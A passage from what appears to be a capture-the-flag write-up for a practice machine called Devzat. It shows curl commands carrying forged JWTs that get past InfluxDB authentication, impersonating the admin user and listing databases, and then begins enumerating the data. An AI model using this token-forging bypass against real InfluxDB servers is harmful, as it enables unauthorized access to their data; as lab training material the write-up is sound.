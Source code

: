 It's important to make sure to empty the box where the key goes, and
check base64.

I'll send the token via `curl`, and it doesn't work:



    patrick@devzat:~$ curl -G localhost:8086/query?pretty=true --data-urlencode "q=SHOW DATABASES" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InBhdHJpY2siLCJleHAiOjE2NjYwMzQ3MTZ9.NxviPyBvpdyXsf3j7vru-LpLZ3AtGM68049rHSzMqX8"
    {
        "error": "user not found"
    }



Still, the fact that it accepted the token and is just complaining about
the user is a really good sign. When I create a token with the username
admin, it works:



    curl -G localhost:8086/query?pretty=true --data-urlencode "q=SHOW DATABASES" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjY2MDM0NzE2fQ.fd4oRbG8JP0j2uPtYP3dVUSAewNxKxbcYyjhcmYo1I4"
    {
        "results": [
            {
                "statement_id": 0,
                "series": [
                    {
                        "name": "databases",
                        "columns": [
                            "name"
                        ],
                        "values": [
                            [
                                "devzat"
                            ],
                            [
                                "_internal"
                            ]
                        ]
                    }
                ]
            }
        ]
    }



#### Enumerate with Auth

Now that I'm authenticated, I can enumerate the DB. The query above
showed two DBs. `_internal` is part of the database itself, so I'll
start on `devzat`. Tables are called measurements in Influx (I'll move
the token into a variable for readability):

